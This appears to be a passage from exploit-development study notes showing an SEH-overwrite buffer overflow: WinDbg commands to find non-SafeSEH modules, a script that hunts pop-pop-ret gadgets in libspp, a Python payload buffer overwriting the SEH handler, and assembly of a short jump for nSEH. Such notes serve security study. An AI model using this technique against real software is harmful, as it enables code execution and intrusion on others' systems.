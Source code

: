 ##### Find `P/P/R/` (`pop r32; pop r32; ret;`)

```bash
windbg> .load narly
windbg> !nmod # find the modules with /SafeSEH OFF
...
10000000 10226000 libspp 

# Create find_ppr.wds script
.block
{
	.for (r $t0 = 0x58; $t0 <= 0x5F; r $t0 = $t0 + 0x01)
	{
		.for (r $t1 = 0x58; $t1 <= 0x5F; r $t1 = $t1 + 0x01)
		{
			s-[1]b 10000000 10226000 $t0 $t1 c3
		}
	}
}

windbg> $><C:\Users\user\Desktop\find_ppr.wds
1015a2f0
...

windbg> u 0x1015a2f0 L3 # check that its PPR
... pop eax
... pop ebx
... ret
```

##### Find nSEH Address

```bash
# Edit payload
inputBuffer = b'\x41' * offset
inputBuffer += pack("<L", (0x1015a2f0)) # SEH 0x1015a2f0 - pop eax; pop ebx; ret
inputBuffer += b'\x43' * (size - len(inputBuffer))

# Check for PPR
windbg> u 1015a2f0 L3 # should show pop; pop; ret;
```

##### Island-Hopping

```bash
# Assembling and Getting opcodes for short jump
windbg> dds eip L4
0abcdefg 41414141
0abcdefh 1015a2f0
0abcdefj 43434343
0abcdefk 43434343

windbg> a # assemble short jmp
0abcdefg jmp 0x01e6ff5c
01e6ff56

windbg> u eip L1 # getting opcode for short jmp
0abcdefg eb06 # eb06 is the opcode for short jump
```
